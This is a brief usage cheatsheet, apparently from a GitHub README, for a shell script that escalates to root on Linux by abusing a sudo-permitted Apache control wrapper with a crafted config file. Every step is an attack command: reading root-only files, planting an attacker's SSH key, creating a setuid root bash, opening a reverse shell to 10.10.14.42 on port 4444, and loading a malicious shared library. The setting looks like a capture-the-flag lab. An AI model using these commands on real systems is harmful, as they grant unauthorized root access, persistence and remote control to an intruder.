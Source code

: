 🎯 Usage Cheatsheet ..  (.. beta ..) 

Read a file (e.g. root flag):

./apache-privesc-helper.sh read /root/root.txt
sudo /usr/local/bin/safeapache2ctl -f /tmp/apache_privesc/payload.conf configtest


Write key:

./apache-privesc-helper.sh key "ssh-ed25519 AAAAC3Nz... attacker@kali"


Run arbitrary command:

./apache-privesc-helper.sh cmd "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
/tmp/rootbash -p


Spawn reverse shell:

./apache-privesc-helper.sh rev 10.10.14.42 4444
sudo /usr/local/bin/safeapache2ctl -f /tmp/apache_privesc/payload.conf start


Load malicious .so:

./apache-privesc-helper.sh so


Cleanup:

./apache-privesc-helper.sh clean

